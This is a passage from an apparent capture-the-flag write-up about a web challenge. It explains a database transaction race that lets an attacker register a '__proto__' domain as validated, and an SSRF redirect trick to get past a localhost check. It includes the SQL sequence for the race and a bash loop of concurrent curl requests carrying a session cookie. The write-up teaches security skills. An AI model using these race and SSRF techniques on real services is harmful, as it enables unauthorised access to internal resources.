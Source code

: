 So it would seem that the validated site insertion, pending site validation and removal, and site ownership insertion, all happen simultaneously and asynchronously as part of a transaction that can be rolled back.  If we could line up two requests in just the right way, perhaps we could get a `rollback` from a second request in before the site insertion.  It would go something like this:

```SQL
-- /site/validate/ request 1 begins
begin;
-- /site/validate/ request 2 begins
begin; -- request 2 begin fails
rollback; -- request 2 failed so rollback is executed but ends the transaction for request 1's begin, requst 2 ends
INSERT INTO site (domain, pages, indices) VALUES ('__proto__','[]','[]')
INSERT INTO user_site_ownership (username, domain) VALUES ('admin','__proto__')
SELECT * FROM pending_site WHERE domain = '__proto__' AND username = 'admin' AND validation_code = 'whatever'; -- This fails and causes another rollback
rollback; -- From request 1 but it fails, and __proto__ is now in the sites table and validated
```

So we can now insert any domain as a validated one.  We now have one last hurdle...

## localhost:1337 (redirect)

The last hurdle to get past is the check for `localhost` on the SSRF target:

```js
// Let's just call a spade a spade, shall we?
const ssrfTarget = express();
ssrfTarget.get("/flag.txt", (req, res) => {
    if (req.hostname !== "localhost") {
        return res.status(401).send(">:(");
    }

    res.send(FLAG);
});
ssrfTarget.listen(1337, "127.0.0.1");
```

We can't just add `localhost:1337` as the domain and scrape it as there's no `/flag.txt` route that would get refetched.  However, we should be able to add our own domain, let the search console scrape it, and then have it serve up a redirect to `localhost:1337` for the refetch.

## Piecing It All Together

### Race Condition

We now have all of the ingredients, so let's code up something to attempt the race condition.  A little testing shows that lots of requests via `curl` works, so we'll start with that.  We'll need a session cookie from the app, the domain, and the url.

```bash
#!/bin/bash

for i in {0..10}
do
  curl "$1/site/validate" \
    -H 'Content-Type: application/json' \
    -H "Cookie: user_token=$2" \
    --data-raw "{\"domain\":\"$3\"}" &
done
```
